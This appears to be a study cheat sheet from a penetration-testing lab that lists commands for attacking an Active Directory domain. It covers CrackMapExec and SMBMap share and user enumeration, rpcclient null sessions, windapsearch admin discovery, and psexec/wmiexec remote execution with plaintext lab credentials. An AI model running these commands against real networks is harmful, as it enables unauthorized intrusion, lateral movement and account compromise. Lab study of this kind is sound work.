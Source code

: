 ## CrackMapExec

CME - Domain User Enumeration
```shell
sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --users
```

CME - Domain Group Enumeration
```shell
sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --groups
```

CME - Logged On Users
```shell
sudo crackmapexec smb 172.16.5.130 -u forend -p Klmcargo2 --loggedon-users
```

Share Enumeration - Domain Controller
```shell
sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --shares
```

Spider_plus
```shell
sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M spider_plus --share 'Department Shares'
```

## SMBMap

SMBMap To Check Access
```shell
smbmap -u forend -p Klmcargo2 -d INLANEFREIGHT.LOCAL -H 172.16.5.5
```

Recursive List Of All Directories
```shell
smbmap -u forend -p Klmcargo2 -d INLANEFREIGHT.LOCAL -H 172.16.5.5 -R 'Department Shares' --dir-only
```

## rpcclient

SMB NULL Session with rpcclient
```shell
rpcclient -U "" -N 172.16.5.5
```

RPCClient User Enumeration By RID
```shell
rpcclient $> queryuser 0x457
```

Enumdomusers
```shell
rpcclient $> enumdomusers
```

Using psexec.py
```shell
psexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.125
```

Using wmiexec.py
```shell
wmiexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.5
```

## Windapsearch

Windapsearch - Domain Admins
```shell
python3 windapsearch.py --dc-ip 172.16.5.5 -u forend@inlanefreight.local -p Klmcargo2 --da
```

Windapsearch - Privileged Users
```shell
python3 windapsearch.py --dc-ip 172.16.5.5 -u forend@inlanefreight.local -p Klmcargo2 -PU
```
















